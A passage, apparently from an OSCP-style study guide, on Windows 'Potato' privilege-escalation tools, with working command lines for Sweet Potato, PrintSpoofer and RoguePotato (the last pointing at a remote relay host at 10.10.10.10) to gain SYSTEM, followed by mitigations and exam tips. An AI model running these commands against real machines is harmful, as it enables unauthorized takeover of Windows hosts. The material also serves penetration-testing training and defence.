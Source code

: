 Note: The CLSID (`-c` parameter) depends on the Windows version. A list of CLSIDs can be found in the Juicy Potato repository.

### Sweet Potato

Sweet Potato combines techniques from both Rotten and Juicy Potato but works on newer Windows versions where Juicy Potato fails, including Windows 10 and Server 2019.

#### Using Sweet Potato

```powershell
# Import the module
Import-Module .\SweetPotato.ps1

# Execute command as SYSTEM
Invoke-SweetPotato -Command "whoami > C:\temp\whoami.txt"
```

### PrintSpoofer and RoguePotato

These are newer alternatives when Juicy/Sweet Potato doesn't work:

```cmd
# PrintSpoofer
PrintSpoofer.exe -i -c cmd

# RoguePotato
RoguePotato.exe -r 10.10.10.10 -e "C:\Windows\System32\cmd.exe" -l 9999
```

### Mitigation Against Potato Attacks

To defend against these attacks:

1. Apply the latest Windows security updates
2. Restrict the assignment of SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege
3. Use Protected Users security group for sensitive accounts
4. Implement network segmentation to prevent NBNS/WPAD spoofing
5. Use WPAD Group Policy settings to disable automatic proxy discovery
6. Monitor for suspicious process creation and token manipulation events

### OSCP Exam Notes

For the OSCP exam:
- Hot Potato is useful for older Windows systems
- Juicy Potato works well on Windows 7 through early Windows 10
- Always check for SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege first
- Have multiple versions of potato exploits ready
- Document the specific technique and parameters used 